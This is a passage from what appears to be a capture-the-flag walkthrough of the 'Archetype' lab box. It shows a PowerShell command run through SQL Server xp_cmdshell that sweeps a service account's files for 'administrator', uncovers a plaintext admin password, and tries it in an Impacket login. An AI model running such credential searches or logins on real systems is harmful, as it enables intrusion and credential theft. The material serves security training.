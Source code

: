 We then pipe the list of all files and folders into the following command:

```powershell
Get-Content -ErrorAction SilentlyContinue
```

This will read the contents of each file that was piped into the command and print it to the console.
The last part of the command performs a case-insensitive search for the word ‘administrator’ in all the piped content:

```powershell
Select-String administrator -ErrorAction SilentlyContinue
```

Putting it all together and displaying the output, we see that one of the files that was read had a command that included the word ‘administrator’!

```powershell
SQL> xp_cmdshell "powershell "Get-ChildItem -Path C:\Users\sql_svc -Recurse -Force -ErrorAction SilentlyContinue | Get-Content -ErrorAction SilentlyContinue| Select-String administrator -ErrorAction SilentlyContinue""
 
output                                                                             
 
--------------------------------------------------------------------------------   
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!            
```

The command [maps the T drive to the backups share using the administrator account](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/gg651155(v=ws.11)). And we can see that the last argument includes the administrator password!
All that’s left is to either log in with the administrator credentials to SQL Server or find a way to run a command as the administrator and then read the contents of the flag.
The attempt for the former failed:

```bash
mssqlclient.py ARCHETYPE/administrator:MEGACORP_4dm1n\!\!@$ip -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
 
[*] Encryption required, switching to TLS
[-] ERROR(ARCHETYPE): Line 1: Login failed for user 'ARCHETYPE\administrator'.
```

This is because there’s no such user in the database (logged in with `sql_svc` user):

```sql
SQL> SELECT name FROM sys.database_principals

name
 
public
dbo
guest
INFORMATION_SCHEMA
sys
##MS_PolicyEventProcessingLogin##
##MS_AgentSigningCertificate##
db_owner
db_accessadmin
db_securityadmin 
db_ddladmin
db_backupoperator
db_datareader
db_datawriter
db_denydatareader
db_denydatawriter                               
```
